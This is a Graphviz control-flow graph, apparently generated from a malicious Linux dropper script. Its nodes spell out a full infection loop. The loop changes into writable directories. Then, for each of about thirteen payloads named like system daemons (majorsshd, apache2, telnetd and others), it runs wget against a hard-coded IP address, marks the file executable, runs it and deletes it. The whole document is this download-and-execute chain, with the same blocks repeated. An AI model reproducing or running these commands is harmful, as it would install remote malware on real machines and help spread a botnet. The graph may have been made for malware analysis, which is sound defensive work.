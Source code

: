 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://45.32.161.227/majorntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x majorntpd "];
12 -> 14 [label=";,"];
14 [label="./majorntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf majorntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://45.32.161.227/majorsshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x majorsshd "];
30 -> 32 [label=";,"];
32 [label="./majorsshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf majorsshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://45.32.161.227/majoropenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x majoropenssh "];
48 -> 50 [label=";,"];
50 [label="./majoropenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf majoropenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://45.32.161.227/majorbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x majorbash "];
66 -> 68 [label=";,"];
68 [label="./majorbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf majorbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://45.32.161.227/majortftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x majortftp "];
84 -> 86 [label=";,"];
86 [label="./majortftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf majortftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://45.32.161.227/majorwget "];
100 -> 102 [label=";,"];
102 [label="chmod +x majorwget "];
102 -> 104 [label=";,"];
104 [label="./majorwget "];
104 -> 106 [label=";,"];
106 [label="rm -rf majorwget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://45.32.161.227/majorcron "];
118 -> 120 [label=";,"];
120 [label="chmod +x majorcron "];
120 -> 122 [label=";,"];
122 [label="./majorcron "];
122 -> 124 [label=";,"];
124 [label="rm -rf majorcron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://45.32.161.227/majorftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x majorftp "];
138 -> 140 [label=";,"];
140 [label="./majorftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf majorftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://45.32.161.227/majorpftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x majorpftp "];
156 -> 158 [label=";,"];
158 [label="./majorpftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf majorpftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://45.32.161.227/majorsh "];
172 -> 174 [label=";,"];
174 [label="chmod +x majorsh "];
174 -> 176 [label=";,"];
176 [label="./majorsh "];
176 -> 178 [label=";,"];
178 [label="rm -rf majorsh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://45.32.161.227/ major  "];
190 -> 192 [label=";,"];
192 [label="chmod +x  major  "];
192 -> 194 [label=";,"];
194 [label="./ major  "];
194 -> 196 [label=";,"];
196 [label="rm -rf  major  "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://45.32.161.227/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://45.32.161.227/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}

